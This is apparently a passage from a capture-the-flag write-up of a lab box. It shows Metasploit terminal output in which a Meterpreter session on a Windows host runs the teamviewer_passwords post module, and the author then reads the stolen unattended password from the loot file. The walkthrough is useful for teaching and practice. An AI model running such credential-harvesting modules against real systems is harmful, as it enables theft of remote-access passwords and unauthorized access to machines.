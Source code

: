 ```bash
Interact with a module by name or index. For example info 1, use 1 or use post/windows/gather/credentials/teamviewer_passwords                          

msf6 exploit(multi/handler) > use 1
msf6 post(windows/gather/credentials/teamviewer_passwords) > options

Module options (post/windows/gather/credentials/teamviewer_passwords):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   SESSION                        yes       The session to run this module
                                             on
   WINDOW_TITLE  TeamViewer       no        Specify a title for getting th
                                            e window handle, e.g. TeamView
                                            er


View the full module info with the info, or info -d command.

msf6 post(windows/gather/credentials/teamviewer_passwords) > sessions

Active sessions
===============

  Id  Name  Type                 Information          Connection
  --  ----  ----                 -----------          ----------
  1         meterpreter x64/win  IIS APPPOOL\Default  10.10.14.14:9001 ->
            dows                 AppPool @ REMOTE     10.10.10.180:49760 (
                                                      10.10.10.180)

msf6 post(windows/gather/credentials/teamviewer_passwords) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/credentials/teamviewer_passwords) > run

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
[+] Passwords stored in: /home/kali/.msf4/loot/20241206075153_default_10.10.10.180_host.teamviewer__018160.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are ''
[*] TeamViewer's version is ''
[-] Unable to find TeamViewer's process
[*] Post module execution completed
```

Let me double check the extracted password.

```bash
┌──(kali㉿kali)-[~]
└─$ cat /home/kali/.msf4/loot/20241206075153_default_10.10.10.180_host.teamviewer__018160.txt
Unattended Password: !R3m0te!
```
